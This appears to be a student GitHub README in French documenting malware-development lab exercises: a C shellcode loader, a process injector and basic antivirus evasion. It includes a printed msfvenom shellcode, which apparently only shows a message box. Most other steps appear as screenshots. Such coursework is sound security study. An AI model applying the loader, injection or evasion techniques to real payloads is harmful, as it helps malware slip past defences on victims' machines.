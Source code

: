 
# Labos réalisés par
>Marco Profetto
>
>Mohamed Harag
>
>Antoine Blairon


# 0. Paramétrisation de l'environnement de test:
Download & upload ISO file:
![image](https://github.com/user-attachments/assets/d218bd6b-5807-425b-8d50-326c37265e8d)

Installation de la machine virtuelle (labo):
![image](https://github.com/user-attachments/assets/19c93366-97ff-4bdb-adb4-a1a6e97c772d)

Snapshot avant début exercices:
![image](https://github.com/user-attachments/assets/cb6766d4-12c6-4be4-80f3-d8f5117cfde1)

Installation Metasploitframework:
![image](https://github.com/user-attachments/assets/a4c95507-bff6-467f-a464-9f7a351bf59b)

![image](https://github.com/user-attachments/assets/68da3cdf-80c9-4cd5-b35b-e4550a593e7f)

Installation Windbg:
![image](https://github.com/user-attachments/assets/707355be-62eb-49c0-8a3d-8fb3b3b1ab85)

Installation de GCC

# Charge utile:

\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x0f\xb7\x4a\x4a\x48\x8b\x72\x50\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x19\x00\x00\x00\x54\x61\x73\x6b\x20\x66\x61\x69\x6c\x65\x64\x20\x73\x75\x63\x63\x65\x73\x73\x66\x75\x6c\x6c\x79\x00\x5a\xe8\x0b\x00\x00\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78\x00\x41\x58\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5

# 1. Création d'un loader de shell Code basique en C

msfvenom pour créer un shell code:
![image](https://github.com/user-attachments/assets/429a8f32-0588-4fb1-a6be-2862c18ba29d)

Compilation du code grâce au shell code obtenu à l'étape précédente:
![image](https://github.com/user-attachments/assets/eabeaad4-bdc2-4bd9-9dba-7c1bfcafcb58)

![image](https://github.com/user-attachments/assets/7a41d271-3fa4-4d1b-9868-d9f7091cb746)

Lancement du malware produit:
![image](https://github.com/user-attachments/assets/685dcc1a-6b79-4deb-b8be-e8f1f777f470)

Monitoring de l'exécution grâce à WinDBG:
![image](https://github.com/user-attachments/assets/bbf12d14-d3fd-428c-b902-33e50e3787ee)

# 2. Bonus 1 : Exécution du shellcode sans CreateThread()
Modifier le loader pour exécuter le shellcode sans utiliser l'API CreateThread()



Exercice 2 : Création d'un injecteur de shellcode basique
Obtenir un handle du processus cible

# 3. Basic Antivirus Evasion
Tentative de shellcode grâce à la technique d'évasion:
Eviter d'écrire directement dans le code mais plutôt de passer en argument le shellcode pour que l'antivirus ne détecte pas ce shellcode lors de l'analyse statique de l'exécutable.

Objectif :
Mettre en œuvre des techniques d’évasion pour éviter la détection par un antivirus (AV) ou un système de détection et de réponse aux menaces (EDR).


![image](https://github.com/user-attachments/assets/2167853e-fa4b-4807-9993-f92edce6632c)



# Références:
Cas Van Cooten
- https://github.com/chvancooten/maldev-for-dummies/blob/main/Slides/Malware%20Development%20for%20Dummies%20-%20X33fcon%2030-05-2023.pdf
